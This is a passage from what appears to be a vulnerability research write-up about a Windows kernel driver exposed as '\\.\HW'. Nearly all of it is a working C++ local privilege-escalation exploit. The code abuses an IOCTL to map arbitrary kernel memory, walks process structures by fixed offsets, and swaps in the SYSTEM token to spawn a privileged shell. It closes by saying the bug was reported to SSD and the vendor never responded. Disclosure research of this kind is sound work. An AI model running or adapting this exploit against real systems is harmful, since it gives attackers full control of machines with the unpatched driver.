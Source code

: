 ```cpp
    DeviceIoControl(hDriver, IOCTL_01, (LPVOID)uInBuf, 0x1000, uOutBuf, 0x1000, &bytesWritten, NULL);
    QWORD* out = (QWORD*)((QWORD)uOutBuf);
    QWORD mapped = *(out + 2);
    return mapped;
}

int main() {
    HANDLE hDriver = CreateFile(L"\\\\.\\HW", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }    

    printf("[>] Exploiting driver..\n");
    QWORD systemProc = getSystemEProcess();
    QWORD systemProcMap = mapArbMem(systemProc, hDriver);
    QWORD systemToken = (QWORD)(*(QWORD*)(systemProcMap + 0x4b8));
    printf("[>] System Token: 0x%llx\n", systemToken);

    DWORD currentProcessPid = GetCurrentProcessId();
    BOOL found = false;
    QWORD cMapping = systemProcMap;
    DWORD cPid = 0;
    QWORD cTokenPtr = 0;
    while (!found) {
        QWORD readAt = (QWORD)(*(QWORD*)(cMapping + 0x448)); 
        cMapping = mapArbMem(readAt - 0x448, hDriver);
        cPid = (DWORD)(*(DWORD*)(cMapping + 0x440));
        cTokenPtr = (QWORD)(*(QWORD*)(cMapping + 0x4b8));
        if (cPid == currentProcessPid) {
            found = true;
            break;
        }
    }
    if (!found) {
        exit(-1);
    }
    printf("[>] Stealing Token..\n");
    *(QWORD*)(cMapping + 0x4b8) = systemToken;
    system("cmd");
    printf("[>] Restoring Token..\n");
    *(QWORD*)(cMapping + 0x4b8) = cTokenPtr;
    return 0;
}
```

SYSTEM \\o/

![](hw_final_proof-1024x562.png)I reported the vulnerability to [SSD ](https://ssd-disclosure.com/)which then contacted the vendor. Unfortunately, the vendor never responded.